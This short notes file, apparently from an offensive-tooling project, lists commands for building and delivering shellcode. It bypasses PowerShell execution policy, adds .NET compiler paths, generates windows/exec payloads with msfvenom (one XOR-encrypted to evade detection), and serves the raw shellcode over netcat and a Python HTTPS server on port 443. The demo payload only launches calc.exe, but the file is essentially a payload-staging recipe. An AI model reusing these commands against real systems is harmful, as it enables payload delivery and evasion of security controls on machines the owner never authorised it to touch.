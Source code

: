 Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process 


//32 bit
$env:Path += 'C:\Windows\Microsoft.NET\Framework\v4.0.30319'

//64 bit
$env:Path += 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319'



//create payload
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread -f raw -o shell
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread --encrypt=xor --encrypt=YoloSpaceHacker -f raw -o shell


//serve payload
nc -lvnp 9000 < shell

sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER);context.load_cert_chain('localhost.pem', 'localhost.key');httpd.socket=context.wrap_socket(httpd.socket,server_side=True);httpd.serve_forever()"

